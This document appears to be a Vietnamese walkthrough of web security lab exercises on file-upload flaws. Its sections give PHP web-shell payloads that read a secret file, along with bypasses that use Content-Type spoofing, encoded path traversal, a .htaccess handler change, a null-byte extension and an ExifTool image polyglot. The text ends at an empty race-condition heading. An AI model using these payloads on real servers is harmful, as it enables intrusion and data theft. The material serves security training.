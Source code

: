 # 1. Remote code execution via web shell upload
Ta thấy chức năng upload avatar cho phép ta upload bất kì loại file nào. Như vậy ta thử upload file payload.php với nội dung:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Sau khi upload file, ta truy cập `/files/avatars/payload.php` thì thấy nội dung file /home/carlos/secret đã được hiển thị:

![image](https://user-images.githubusercontent.com/103978452/202854734-8fa1c18b-4117-4a3c-b75e-547b67b16588.png)

# 2. Web shell upload via Content-Type restriction bypass
Khi upload file có đuôi .php thì website trả về lỗi, thông báo rằng chỉ cho phép uplaod file với MIME type image/jpeg hoặc image/png.

Ta thử upload file payload.php với nội dung:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
rồi thay đổi Content-Type từ `application/x-php` thành `image/jpeg` rồi submit (sử dụng Burp Repeater)

Kết quả thành công. Ta truy cập `/files/avatars/payload.php` thì thấy nội dung file /home/carlos/secret được hiển thị

![image](https://user-images.githubusercontent.com/103978452/202857559-21ced5bd-38e0-47f0-a627-0b64162b40f7.png)

# 3. Web shell upload via path traversal
Ta thử upload file payload.php với nội dung
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
rồi truy cập `/files/avatars/payload.php` thì thấy nội dung file được hiển thị thay vì được execute. Ta sẽ thử upload file payload.php vào các folder khác sử dụng kĩ thuật directory traversal.

Trong tab Repeater của BurpSuite, ta thấy POST request đến `/my-account/avatar` có nội dung như sau:

![image](https://user-images.githubusercontent.com/103978452/202960724-6834b606-d122-43ba-8f10-b716b5a1f5f9.png)

Thay đổi `filename="../payload.php"`, kết quả trả về `The file avatars/payload.php has been uploaded`. Thử với các relative path, absolute path khác cũng có kết quả tương tự. Như vậy có thể server lọc ra filename trước rồi mới upload.

Thử dùng URL encode, thay `filename="%2E%2E%2F%70%61%79%6C%6F%61%64%2E%70%68%70"` (tương ứng `payload="../payload.php` sau khi decode) thì thấy kết quả trả về thành công

![image](https://user-images.githubusercontent.com/103978452/202961066-81908b20-efee-4af1-8076-2c0754a00c5b.png)

Truy cập `/files/payload.php`, ta thấy đoạn code được execute và trả về nội dung file /home/carlos/secret

![image](https://user-images.githubusercontent.com/103978452/202961174-fed4b7c5-a005-4096-b909-b56917ff110d.png)

# 4. Web shell upload via extension blacklist bypass
Ta thấy server đã chặn các file có đuôi .php. Thử sử dụng các kỹ thuật để obfuscate file extension, kết quả không thành công

Ta thử bypass bằng cách upload file `.htaccess` với nội dung:
```
AddType application/x-httpd-php .jpg
```
File này sẽ cấu hình server cho phép chạy các file có đuôi .jpg như một file php

![image](https://user-images.githubusercontent.com/103978452/203673325-04ed4e21-1fcb-466d-b8a7-13d0386969ac.png)

Kết quả upload file thành công. Ta tiếp tục upload file `payload.jpg` với nội dung:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
Sau đó truy cập `/files/avatars/payload.jpg`, kết quả thu được nội dung file cần tìm.

![image](https://user-images.githubusercontent.com/103978452/203673682-3cca7ead-61ec-48b3-954c-9212adc7ea37.png)

# 5. Web shell upload via obfuscated file extension
Ta upload file `payload.php` với nội dung:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
thì server trả về thông báo lỗi: "Sorry, only JPG & PNG files are allowed"

Ta thay đổi filename thành `payload.php%00.jpg` rồi submit, kết quả thành công.

Truy cập `/files/avatars/payload.php` thu được nội dung file cần tìm

![image](https://user-images.githubusercontent.com/103978452/203674340-7274dfef-a47e-4a9d-82c6-3e832485c6c6.png)

# 6. Remote code execution via polyglot web shell upload
Ta upload file `payload.php` thì thấy server trả về `Error: file is not a valid image`.

Dùng ExifTool để chèn một đoạn php vào trong file image `naruto.jpg` với lệnh:
```
exiftool -DocumentName="<h1>HELLO</h1><?php echo file_get_contents('/home/carlos/secret'); ?>" naruto.jpg
```
Sau đó đổi tên file thành `naruto.php` và upload lên website. Kết quả trả về thành công. Dùng BurpSuite để bắt request, ta thấy trong nội dung file có chứa đoạn code đã được inject

![image](https://user-images.githubusercontent.com/103978452/203678647-73fc07b3-f7f7-43df-99c5-e64a5bbbf57d.png)

Thử truy cập `/files/avatars/naruto.php` thì server trả về lỗi `500 Internal Server Error`. Như vậy có khả năng trong phần thân image có các kí tự đặc biệt như `<?` khiến cho đoạn code bị lỗi. Ta dùng lệnh `__halt_compiler() ?>` để các đoạn code bên dưới không được execute. Như vậy injected code sẽ là:
```
<h1>HELLO</h1><?php echo file_get_contents('/home/carlos/secret'); __halt_compiler(); ?>
```
Sau khi upload, truy cập `/files.avatars/naruto.php`, kết quả trả về nội dung file mong muốn.

![image](https://user-images.githubusercontent.com/103978452/203678976-af5de655-ed73-404e-a818-fb4515bea3ca.png)

# 6. Web shell upload via race condition
